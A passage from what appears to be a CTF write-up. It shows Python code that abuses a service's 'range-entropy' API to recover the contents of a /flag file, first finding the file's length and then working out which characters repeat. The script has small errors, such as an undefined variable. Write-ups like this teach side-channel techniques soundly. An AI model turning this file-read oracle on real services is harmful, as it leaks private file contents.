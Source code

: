 From there, we wrote our wrapper function to get entropy of a set range in python

```python
PATH = '/flag'
def query(s, e):
    while True: #the remote was weird initially, so try until it works
        try:
            res = r.post(api, json={ "path": PATH, "start": s, "end": e }, headers={'Content-Type': 'application/json'})
            break
        except Exception as E:
            print("[Error]", s, e, E)

    cnt = res.json()["range-entropy"]
    #print(s, e, cnt)
    return cnt
```

# Leaking the flag


The first step is to know the length of the file. By querying [i, i+1] from 0 and incrementing i, we will eventually get to a point where there is no character read, returning an entropy of 0\. At this point, the i will be the length of the file.

But how can we get the content of the file by only knowing the entropy? Lets say if the entropy of a file[s:e] is x, then we know that the entropy of file[s:e+1] will be x+1 if file[e+1] is not in the file[s:e], or x if file[e+1] is in file[s:e]. 

Now do the same thing but with file[s:e] and file[s+1:e], and sweep it from 0 to the length of the file. We can notice that the first time that the entropy of both range is equal means that the character s is in file[s+1:e], or other words character e equals character s. Once we done all of that on every starting character, we can get a relative mapping of what character are the same and what are different.

Implementing this search give us the following code:

```python
LEN = 109 #length of the flag file

#construct the file array with unique identifier for each character
flag = list("ALLES!{")+[f'un_{i}' for i in range(len(test_flag)-8)]+['}'] 

def test(st, ed):
# ed + 1 to accommadate for the ending characture not included in range
    en1 = query(st, ed+1) 
    en2 = query(st+1, ed+1)
    return (en2==en1) #if two entropy is the same, then file[s] is in file[s+1:e]

for st in range(LEN):
		for ed in range(st+1, LEN):
        if test(st, ed)==True:
            flag[ed] = flag[st]
            break

print(flag)
```
